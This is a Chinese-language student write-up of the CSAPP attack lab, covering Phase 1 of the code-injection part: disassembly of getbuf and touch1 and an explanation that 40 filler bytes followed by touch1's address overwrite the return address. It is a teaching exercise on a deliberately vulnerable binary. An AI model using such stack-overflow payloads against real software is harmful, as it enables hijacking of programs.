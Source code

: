 # Lab3 - attacklab

仔细阅读官网上的说明指南，以下任务均是由指南发布的。

## Part I: Code Injection Attacks

```shell
objdump -d ctarget > ctarget.asm
```

第一部分的实验是通过代码注入攻击来实现函数跳转等目标。程序CTARGET没有任何防备。其入口为函数 ``test``

```c
void test() {
    int val;
    val = getbuf();
    printf("NO explit. Getbuf returned 0x%x\n", val);
}
```

### Phase 1

第一部分无需注入代码，只需令函数``test``执行完毕后跳转到``touch1``。

我们输入的字符串进入``getbuf``，查看其汇编代码

```assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

程序开辟了0x28字节的缓存空间，我们的输入要覆盖其缓冲区，并覆盖 **缓冲区-1** 地址，该地址为函数返回时跳转的地址。

```assembly
00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
  4017cb:	00 00 00 
  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
  4017d3:	e8 e8 f4 ff ff       	callq  400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	callq  401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	callq  400e40 <exit@plt>
```

查看``touch1``的首地址为 0x4017c0，则我们的输入应是：任意40字节 + c0 17 40 00. 例如（为方便查看，以8个为一行，实际输入应在同一行并用空格隔开，下同）：
